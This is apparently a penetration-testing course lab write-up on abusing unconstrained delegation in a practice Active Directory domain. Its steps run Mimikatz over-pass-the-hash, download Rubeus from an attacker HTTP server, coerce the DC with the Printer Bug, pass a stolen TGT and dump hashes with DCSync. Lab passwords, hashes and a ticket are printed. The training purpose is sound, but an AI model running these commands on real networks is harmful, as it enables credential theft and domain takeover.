



# Hands-on 11: Unconstrained Delegation

- [Hands-on 11: Unconstrained Delegation](#hands-on-11-unconstrained-delegation)
  - [Tasks](#tasks)
  - [Find a server in US domain where Unconstrained Delegation is enabled](#find-a-server-in-us-domain-where-unconstrained-delegation-is-enabled)
  - [Compromise that server and get Domain Admin privileges](#compromise-that-server-and-get-domain-admin-privileges)

---

## Tasks

- Find a server in US domain where Unconstrained Delegation is enabled. 
- Compromise that server and get Domain Admin privileges.

<br/>

---

## Find a server in US domain where Unconstrained Delegation is enabled

Import AD module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

Enumerate computers with **Unconstrained Delegation**:

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

  

- US-Web has unconstrained delegation

<br/>

## Compromise that server and get Domain Admin privileges

Since `US-Web` has Unconstrained Delegation, if we manage to compromise `US-Web` and use Printer Bug against the DC, we can get the TGT of the DC machine account, which can be used to perform DCSync.

<br/>

In the last [Hands-on 10](l10-Exchange.md), we dumped the following credential:

`us\webmaster`
- Password: `0wnerOftheIntraNetz`
- AES256: `2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0`
- NTLM: `23d6458d06b25e463b9666364fb0b29f`

<br/>

Try to access `US-Web` using the cleartext credential:

```
winrs -r:us-web.us.techcorp.local -u:us\webmaster -p:"0wnerOftheIntraNetz" cmd.exe
```

  

- Not successful

<br/>

Try to perform Over-Pass-the-Hash:

```
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1
```

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us.techcorp.local /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /run:powershell"'
```


<br/>

Although there is a new PS session, it triggered Windows Defender:

  

<br/>

Try to access `US-WEB`:
```
winrs -r:us-web.us.techcorp.local cmd.exe
```

  

- As shown, we successfully compromise `US-WEB` with admin privilege

<br/>

Next, we will use the Printer Bug to get TGT from the DC$.

First serve `Rubeus.exe` on our RDP machine:

```
python -m SimpleHTTPServer 80
```

  

<br/>

Download `Rubeus.exe` from our RDP machine:

```
powershell -ep bypass
```

```
wget http://192.168.100.64/Rubeus.exe -OutFile .\Rubeus.exe
```

  

<br/>

On `US-WEB`, monitor TGT:

```
.\Rubeus.exe monitor /interval:5
```

  


<br/>

On the RDP machine, use `MS-RPRN.exe` to trigger the DC to send a TGT to `US-WEB`:

```
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

  

<br/>

After that, a TGT from the DC's machine account is received on `US-WEB`:

  

<br/>

```
doIFKTCCBSWgAwIBBaEDAgEWooIEITCCBB1hggQZMIIEFaADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCA88wggPLoAMCARKhAwIBAqKCA70EggO5+2PKZMp8akfe7DjSrrSEaioUsXxYKkHiSpdo21dAqRsAw79nAbcGeYpg+h7eTDhaALYUoc8GvgzBcKIzjIZi2yf/FIxfFhCakPTisRcN8AMk+vkKmluuXgvzzUChlrfqBTcz8RaSAwx94iszt16OGnvf1yQ7dOxoPVOSq+RpbsK6uBDG7816YckzbK6HXogKy42sCOMBdd9EPY0RrcR9ZLkj6KPS8v73LHjKEPictS2jGXQGuwpp98aAnKPodwI99ZkpnZvcARyeYoDqqkK8jN8WJkwq6RJUBDBd0Bhv2yGM8tTa3UF089EJ88FG6/Nbo6usY356SbWvarjt92G9unW4NJGFT5JTFAmpLciSBsZirbCHDx0N2JcfbUreBND1ykEAxzoS5Py69s/3ORxWX+xSjs9vU+TRzhSTpOB/DGmguwYnvR6xCPX19yAm2olaz8/oeCscngmEzGygn3FcLdfpMmnkckE4MWdhl0kp1WWgLC2jcgg0cOEgzuKovXCS8ymWxNcpfqMZqW3mEfcjq05DDZeBZFV5iB6gfpmpvA8CjG2T7OVAVG1JmM8Oj5OrwnADTxOV1aVNRmXb9h7QCWKVXZDYojTeQqkWq138IwwcmjKPMQCM2L5dlWqOe6v3tFRlbUYZB2bfxzBl5NIc9Re2LkyqMayEbg8/+8mVQ3QPrTY3oTfycFbCOkgPcbZa2itwslzqnFlq3EJxfAdTiOmvUwtJee6vV+sjBkQmZi6domJHyoSal1LGQFDJx7anJSFo9c94I6nhg4NUPpmViJLA6RfLzUGLA/5hzFCM5wkaOkMn01tJ4k4RNBAh7fiVLEXzlDR/qEbWhdn7/FgHrOXaLrGhnQ1fTpd+LTLYeyoxGqfB95swISvIxa3/0jsIJORBoO6oq41rJDKtRF/6eRWsVmlwu13dEyocH2lUR8Ts0To4QDnO9i9T1XZe0VOJ+TWbdv4qlgRHnY1nZBW/NUr8db3T1zsCPhGV3/ALsR6FeunLy61fgD7yDeHrWdQPa9Ae6j30xYaZpJdEesa4/IaOmpcnr6Me+0SxAalsarUAmBQKyFvk2ptY80NHFA2HlgpNd+qS2RTZy2ZUuzgaPnjmTgVdnCUtyOCLdnwaKjs600i97MkkIcHXK272UuB2ah6LAs8WESImKrNhiGT/LvTi7i5Ik10BOWuTIsaHaasfrZ95iykRYa5WijspzJn9QSJpd8veNJJ85yQfLJrw7f2ByHPzhFDCICXOA+82ugc7Zjz/f/Pc9vmjgfMwgfCgAwIBAKKB6ASB5X2B4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCDQUEplH02r1BqlJcqEj3kWCWYU/106lPOwJ05qezpAXaETGxFVUy5URUNIQ09SUC5MT0NBTKITMBGgAwIBAaEKMAgbBlVTLURDJKMHAwUAYCEAAKURGA8yMDIxMDEyMjA5MzUxMVqmERgPMjAyMTAxMjIxOTM1MTFapxEYDzE5NzAwMTAxMDAwMDAwWqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRVVMuVEVDSENPUlAuTE9DQUw=
```

Use `Rubeus.exe` to pass-the-ticket:

```
.\Rubeus.exe ptt /ticket:doIFKTCCBSWgAwIBBaEDAgEWooIEITCCBB1hggQZMIIEFaADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCA88wggPLoAMCARKhAwIBAqKCA70EggO5+2PKZMp8akfe7DjSrrSEaioUsXxYKkHiSpdo21dAqRsAw79nAbcGeYpg+h7eTDhaALYUoc8GvgzBcKIzjIZi2yf/FIxfFhCakPTisRcN8AMk+vkKmluuXgvzzUChlrfqBTcz8RaSAwx94iszt16OGnvf1yQ7dOxoPVOSq+RpbsK6uBDG7816YckzbK6HXogKy42sCOMBdd9EPY0RrcR9ZLkj6KPS8v73LHjKEPictS2jGXQGuwpp98aAnKPodwI99ZkpnZvcARyeYoDqqkK8jN8WJkwq6RJUBDBd0Bhv2yGM8tTa3UF089EJ88FG6/Nbo6usY356SbWvarjt92G9unW4NJGFT5JTFAmpLciSBsZirbCHDx0N2JcfbUreBND1ykEAxzoS5Py69s/3ORxWX+xSjs9vU+TRzhSTpOB/DGmguwYnvR6xCPX19yAm2olaz8/oeCscngmEzGygn3FcLdfpMmnkckE4MWdhl0kp1WWgLC2jcgg0cOEgzuKovXCS8ymWxNcpfqMZqW3mEfcjq05DDZeBZFV5iB6gfpmpvA8CjG2T7OVAVG1JmM8Oj5OrwnADTxOV1aVNRmXb9h7QCWKVXZDYojTeQqkWq138IwwcmjKPMQCM2L5dlWqOe6v3tFRlbUYZB2bfxzBl5NIc9Re2LkyqMayEbg8/+8mVQ3QPrTY3oTfycFbCOkgPcbZa2itwslzqnFlq3EJxfAdTiOmvUwtJee6vV+sjBkQmZi6domJHyoSal1LGQFDJx7anJSFo9c94I6nhg4NUPpmViJLA6RfLzUGLA/5hzFCM5wkaOkMn01tJ4k4RNBAh7fiVLEXzlDR/qEbWhdn7/FgHrOXaLrGhnQ1fTpd+LTLYeyoxGqfB95swISvIxa3/0jsIJORBoO6oq41rJDKtRF/6eRWsVmlwu13dEyocH2lUR8Ts0To4QDnO9i9T1XZe0VOJ+TWbdv4qlgRHnY1nZBW/NUr8db3T1zsCPhGV3/ALsR6FeunLy61fgD7yDeHrWdQPa9Ae6j30xYaZpJdEesa4/IaOmpcnr6Me+0SxAalsarUAmBQKyFvk2ptY80NHFA2HlgpNd+qS2RTZy2ZUuzgaPnjmTgVdnCUtyOCLdnwaKjs600i97MkkIcHXK272UuB2ah6LAs8WESImKrNhiGT/LvTi7i5Ik10BOWuTIsaHaasfrZ95iykRYa5WijspzJn9QSJpd8veNJJ85yQfLJrw7f2ByHPzhFDCICXOA+82ugc7Zjz/f/Pc9vmjgfMwgfCgAwIBAKKB6ASB5X2B4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCDQUEplH02r1BqlJcqEj3kWCWYU/106lPOwJ05qezpAXaETGxFVUy5URUNIQ09SUC5MT0NBTKITMBGgAwIBAaEKMAgbBlVTLURDJKMHAwUAYCEAAKURGA8yMDIxMDEyMjA5MzUxMVqmERgPMjAyMTAxMjIxOTM1MTFapxEYDzE5NzAwMTAxMDAwMDAwWqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRVVMuVEVDSENPUlAuTE9DQUw=
```

  

<br/>

Then perform a DCSync to obtain the Domain Admin credential:

```
powershell -ep bypass
```

```
.\InviShell\RunWithPathAsAdmin.bat
```

```
. .\Invoke-Mimikatz.ps1
```

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\administrator"'
```

  

Note:
Administrator
- AES256: `db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335`
- NTLM: `43b70d2d979805f419e02882997f8f3f`

<br/>

Also do it against `us\US-DC$`:

  

Note:
US-DC$
- AES256: `36e55da5048fa45492fc7af6cb08dbbc8ac22d91c697e2b6b9b8c67b9ad1e0bb`
- NTLM: `f4492105cb24a843356945e45402073e`

<br/>

Use Over pass-the-hash to create a powershell session:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us.techcorp.local /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe"'
```

<br/>

Try to acces `US-DC` using `winrs`:

```
winrs -r:us-dc.us.techcorp.local cmd.exe
```

  

<br/>

